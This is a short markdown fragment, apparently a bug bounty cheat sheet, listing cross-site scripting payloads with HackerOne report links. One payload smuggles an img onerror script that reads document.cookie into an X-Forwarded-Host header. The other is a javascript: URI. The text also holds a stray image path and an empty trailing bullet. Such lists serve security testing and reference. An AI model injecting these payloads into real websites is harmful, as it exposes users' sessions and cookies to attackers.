 # XSS
*  X-Forwarded-Host: bing.com"><img src/onerror=prompt(document.cookie)>
> https://hackerone.com/reports/1392935

*  javascript:alert(document.domain) 
> https://hackerone.com/reports/1441988

*  
